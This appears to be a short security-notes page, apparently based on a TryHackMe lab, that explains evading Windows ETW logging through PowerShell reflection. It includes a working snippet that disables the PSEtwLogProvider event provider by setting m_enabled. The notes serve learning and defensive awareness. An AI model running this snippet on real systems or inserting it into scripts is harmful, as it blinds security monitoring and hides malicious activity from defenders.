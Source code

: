 # ETW-Evasion PowerShell Reflection

Powershell Reflection is a [[Logging-And-Monitoring-Evasion]] technique. Within PowerShell, [[ETW]] (ETW) providers are loaded into the session from a .NET assembly: `PSEtwLogProvider`, most .NET assemblies are loaded in the same security context as the user at startup. [Microsoft documentation](https://docs.microsoft.com/en-us/dotnet/standard/assembly/), *"Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications."*

Reflection is as [O'Reilly](https://www.oreilly.com/library/view/professional-windows-powershell/9780471946939/9780471946939_using_.net_reflection.html): *"Reflection allows you to look inside an assembly and find out its characteristics. Inside a .NET assembly, information is stored that describes what the assembly contains. This is called metadata. A .NET assembly is, in a sense, self-describing, at least if interrogated correctly.*

By modifying the assembly fields and values through PowerShell Reflection we can reflect an ETW event provider assembly and set field `m_enabled` to `$null`.

```powershell
# Obtain .NET assembly for `PSEtwLogProvider`
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
# Store a null value for `etwProvider` field
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
# Set the field `m_enabled` to a previously stored value
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```
 

## References

[THM Evading Logging and Monitoring Room](https://tryhackme.com/room/monitoringevasion)
[Microsoft documentation](https://docs.microsoft.com/en-us/dotnet/standard/assembly/)